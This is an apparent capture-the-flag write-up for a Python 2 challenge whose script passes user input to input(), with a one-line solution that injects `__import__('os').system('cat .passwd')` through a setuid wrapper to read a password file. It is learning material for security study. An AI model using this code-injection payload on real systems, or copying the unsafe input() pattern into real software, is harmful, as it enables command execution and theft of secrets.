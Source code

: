 ## Python - input()

| Author | Level | Points |
| ------ | ----- | ------ |
| g0uz | Medium | 20 |


> Feed the python !
>
> **Statement**
>
> Get the password in the file .passwd by exploiting the vulnerability of this script.
>
> Source code :
>
> ```python
>#!/usr/bin/python2
> 
>import sys
> 
>def youLose():
>    print "Try again ;-)"
>    sys.exit(1)
> 
> 
>try:
>    p = input("Please enter password : ")
>except:
>    youLose()
> 
> 
>with open(".passwd") as f:
>    passwd = f.readline().strip()
>    try:
>        if (p == int(passwd)):
>            print "Well done ! You can validate with this password !"
>    except:
>        youLose()

#### Solution

Run `./setuid-wrapper` and enter password

```
__import__("os").system('cat .passwd')
```